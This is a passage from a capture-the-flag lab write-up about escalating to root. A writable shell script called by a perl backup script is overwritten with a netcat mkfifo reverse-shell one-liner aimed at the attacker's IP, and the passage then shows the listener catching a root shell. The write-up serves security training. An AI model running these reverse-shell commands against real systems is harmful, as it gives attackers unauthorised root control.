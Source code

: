 A perl script? Interesting. Let's print out the perl script and see if we can exploit it.

```
cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ 
```

So it just calls this script. Let's check this out..

```
$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Looks like it already has a reverse shell? Let's try changing it to our IP and port number of choice.

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.19.105 9002 >/tmp/f" > /etc/copy.sh
```

Let's start a listener on the attacking machine..

```
kali@kali:~$ nc -nlvp 9002
listening on [any] 9002 ...
```

Now let's run the perl script that calls the ``copy.sh`` script.

```
$ perl /home/itguy/backup.pl
perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory
```

Back on the listener..

```
kali@kali:~$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.2.19.105] from (UNKNOWN) [10.10.16.134] 49694
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

!!!!! We have root! Let's claim our prize

```
# cat /root/root.txt
THM{<redacted>}
```

## Conclusion
